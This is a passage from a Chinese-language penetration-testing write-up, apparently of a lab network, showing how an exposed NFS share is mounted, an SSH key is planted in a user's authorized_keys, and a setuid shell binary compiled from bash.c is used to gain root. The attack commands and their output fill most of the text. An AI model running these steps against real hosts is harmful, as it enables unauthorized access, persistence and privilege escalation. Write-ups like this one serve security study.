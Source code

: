 ### 渗透 NFS 服务 ftp 提权

学习一篇提权文章：[https://xz.aliyun.com/t/11664?time\_\_1311=mqmx0DBDuDcD2QD9DBuQ1GkQBx8GxAEDmiD#toc-12](https://xz.aliyun.com/t/11664?time__1311=mqmx0DBDuDcD2QD9DBuQ1GkQBx8GxAEDmiD#toc-12)  
这里我们来到第一个拿到`shell`的主机，通过`fscan`可知`172.22.13.57`是存在`NFS`服务提权漏洞的  
我们来到根目录，新建一个目录进行`挂载`

```bash
#渗透 NFS 服务
sudo sed -i 's/archive.ubuntu.com/mirrors.aliyun.com/g' /etc/apt/sources.list
sudo apt-get update
apt-get install nfs-common -y

# 查看共享
showmount -e 172.22.13.57
cd /
mkdir test
mount -t nfs 172.22.13.57:/ ./test -o nolock

## 挂载后，证书服务生成，将公钥传给 joyce@172.22.13.57
ssh-keygen -t rsa -b 4096
cd /test/home/joyce/
mkdir .ssh
cat /root/.ssh/id_rsa.pub >> /test/home/joyce/.ssh/authorized_keys
python3 -c 'import pty;pty.spawn("/bin/bash")'
ssh  -i /root/.ssh/id_rsa joyce@172.22.13.57
```

上传`bash.c`，进行编译。利用`ftp`存在 suid 权限成功提权

[![](assets/1709193375-58de9f9377537159075dda201db6294c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205247-1b671ac4-d56f-1.png)

> 整理命令  
> 上传一个反弹 shell 的 c 文件`bash.c`

```bash
root@ubuntu:/temp/home/joyce# chmod -s bash.c
root@ubuntu:/temp/home/joyce# gcc bash.c -o exp
bash.c: In function ‘main’:
bash.c:6:2: warning: implicit declaration of function ‘system’ [-Wimplicit-function-declaration]
    6 |  system("bash");
      |  ^~~~~~
root@ubuntu:/temp/home/joyce# chmod +s exp
root@ubuntu:/temp/home/joyce# ls -al
total 52
drwx------ 3  996  994  4096 Feb 15 17:15 .
drwxr-xr-x 4 root root  4096 Aug 10  2022 ..
-rw-r--r-- 1 root root    76 Feb 15 17:15 bash.c
-rw------- 1  996  994   172 Feb 15 17:13 .bash_history
-rw-r--r-- 1  996  994    18 Nov 25  2021 .bash_logout
-rw-r--r-- 1  996  994   193 Nov 25  2021 .bash_profile
-rw-r--r-- 1  996  994   231 Nov 25  2021 .bashrc
-rwsr-sr-x 1 root root 16784 Feb 15 17:15 exp
drwxr-xr-x 2 root root  4096 Feb 15 17:08 .ssh
```